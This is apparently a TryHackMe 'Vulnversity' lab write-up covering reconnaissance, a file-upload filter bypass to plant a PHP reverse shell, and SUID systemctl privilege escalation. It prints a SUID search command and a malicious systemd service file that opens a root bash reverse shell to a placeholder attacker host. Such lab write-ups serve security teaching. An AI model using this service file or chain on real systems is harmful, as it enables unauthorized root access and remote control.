



# TryHackMe — Vulnversity  
**Focus:** Active Reconnaissance, Web Exploitation, Privilege Escalation  

---

## Overview

This room demonstrates a full attack chain against a vulnerable Linux web server, starting from external reconnaissance, progressing through a file upload vulnerability to gain initial access, and concluding with local privilege escalation due to a dangerous SUID misconfiguration.

The engagement focused on identifying exposed services, enumerating hidden web content, exploiting weak upload validation, and abusing misconfigured binaries to obtain root access.

---

## Reconnaissance

Initial reconnaissance was performed using `nmap` to identify exposed services on the target machine.

The scan revealed an open Squid HTTP proxy service, indicating potential access to internal web resources that are not directly exposed.



To enumerate hidden web directories, Gobuster was used for directory brute-forcing. This scan revealed the existence of an `/internal` directory that was not accessible through normal navigation.



Further enumeration of the `/internal` directory confirmed the presence of a file upload functionality. Additionally, an `/uploads` directory was found, which publicly hosted uploaded files.


This significantly expanded the attack surface.

---

## Initial Access

The upload functionality implemented basic extension filtering, preventing the upload of standard `.php` files.

To bypass this restriction, Burp Suite was used to intercept upload requests while testing alternative PHP extensions using a wordlist. This allowed the successful upload of a PHP-based reverse shell payload using an allowed extension.

A Netcat listener was prepared on port `4444`. Once the uploaded payload was accessed through the `/uploads` directory, a reverse shell connection was successfully established.



At this point, interactive shell access was achieved as a low-privileged user.

---

## Privilege Escalation

Post-exploitation enumeration focused on identifying local privilege escalation vectors. SUID binaries were enumerated using:

```
find / -type f -perm -4000 2>/dev/null
```
This revealed that ```/bin/systemctl``` had the SUID bit set, which is a critical misconfiguration.

Researching this binary using GTFOBins confirmed that ```systemctl``` can be abused to execute arbitrary commands as root when misconfigured.

> Because systemctl interacts directly with systemd as root, abusing it via a malicious service allows arbitrary command execution with full privileges.

A malicious systemd service file was crafted on the attacker machine to spawn a reverse shell with root privileges. This service file was transferred to the target using a temporary HTTP server.

```bash
[unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attackerIP/attckerPORT 0>&1'

[Install]
WantedBy=multi-user.target
```

The vulnerable ```systemctl``` binary was then used to load and start the malicious service while a Netcat listener was active. This resulted in a root-level reverse shell.

---

## Conclusion & Key Takeaways

This room highlights several common real-world security issues:

- Hidden web directories often expose sensitive functionality and should not be relied upon as a security control.

- File upload filters based solely on extensions are easily bypassed.

- SUID misconfigurations involving trusted binaries can lead to complete system compromise.

- Effective privilege escalation relies on thorough local enumeration and knowledge of known abuse techniques.

Overall, this room provided a strong end-to-end example of how small misconfigurations can be chained together to achieve full system compromise.

**Lab Environment:** TryHackMe VM (Linux), VPN-based isolated network